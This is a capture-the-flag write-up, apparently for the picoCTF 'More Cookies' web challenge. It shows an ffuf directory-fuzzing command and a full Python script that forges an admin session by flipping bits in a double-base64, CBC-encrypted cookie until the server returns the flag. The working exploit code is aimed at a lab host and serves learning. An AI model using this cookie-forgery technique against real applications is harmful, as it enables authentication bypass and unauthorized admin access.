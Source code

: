 # Overview
This is the target
<img width="1920" height="800" alt="Screenshot_2025-09-30_23-38-02" src="https://github.com/user-attachments/assets/e1e794d1-5915-40ca-bca7-f57bb2597aa8" />

# Action
I need to look for hidden endpoints since the hint clearly stated that there is an endpoint which tell if the user is admin or not

```
ffuf -c -r -u 'http://mercury.picoctf.net:10868/FUZZ' -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
...
search
```
I found the cookie but after I decode with base64, it is still a radom string
<img width="626" height="316" alt="Screenshot_2025-09-30_23-45-20" src="https://github.com/user-attachments/assets/6e1b6a72-9209-458a-a41a-f71cb60f9264" />
<img width="1537" height="506" alt="Screenshot_2025-09-30_23-44-52" src="https://github.com/user-attachments/assets/ebc6709c-b877-4488-86b9-298bbcf590e7" />

Carefully look at the description
<img width="614" height="73" alt="Screenshot_2025-09-30_23-47-30" src="https://github.com/user-attachments/assets/1c22d45f-66b3-4ba8-a31c-2fdd3855f28d" />
C,B,C are capitalized, `CBC` cipher mod? I am gonna assumed so, and I stucked. Luckily, Thank to [HHousen](https://github.com/HHousen/PicoCTF-2021/blob/master/Web%20Exploitation/More%20Cookies/improved_script.py), I got the script that can help me achieve the flag by flipping bit

```

import requests
import base64
from tqdm import tqdm

ADDRESS = "http://mercury.picoctf.net:10868/"

s = requests.Session()
s.get(ADDRESS)
cookie = s.cookies["auth_name"]
# Decode the cookie from base64 twice to reverse the encoding scheme.
decoded_cookie = base64.b64decode(cookie)
raw_cookie = base64.b64decode(decoded_cookie)


def exploit():
    # Loop over all the bytes in the cookie.
    for position_idx in tqdm(range(0, len(raw_cookie))):
        # Loop over all the bits in the current byte at `position_idx`.
        for bit_idx in range(0, 8):
            # Construct the current guess.
            # - All bytes before the current `position_idx` are left alone.
            # - The byte in the `position_idx` has the bit at position `bit_idx` flipped.
            #   This is done by XORing the byte with another byte where all bits are zero
            #   except for the bit in position `bit_idx`. The code `1 << bit_idx`
            #   creates a byte by shifting the bit `1` to the left `bit_idx` times. Thus,
            #   the XOR operation will flip the bit in position `bit_idx`.
            # - All bytes after the current `position_idx` are left alone.
            bitflip_guess = (
                raw_cookie[0:position_idx]
                + ((raw_cookie[position_idx] ^ (1 << bit_idx)).to_bytes(1, "big"))
                + raw_cookie[position_idx + 1 :]
            )

            # Double base64 encode the bit-blipped cookie following the encoding scheme.
            guess = base64.b64encode(base64.b64encode(bitflip_guess)).decode()

            # Send a request with the cookie to the application and scan for the
            # beginning of the flag.
            r = requests.get(ADDRESS, cookies={"auth_name": guess})
            if "picoCTF{" in r.text:
                print(f"Admin bit found in byte {position_idx} bit {bit_idx}.")
                # The flag is between `<code>` and `</code>`.
                print("Flag: " + r.text.split("<code>")[1].split("</code>")[0])
                return


exploit()
```
<img width="315" height="104" alt="Screenshot_2025-09-30_23-53-46" src="https://github.com/user-attachments/assets/d278fb6a-8689-4912-b242-6cb08f6393a3" />
Happy Hacking!!!

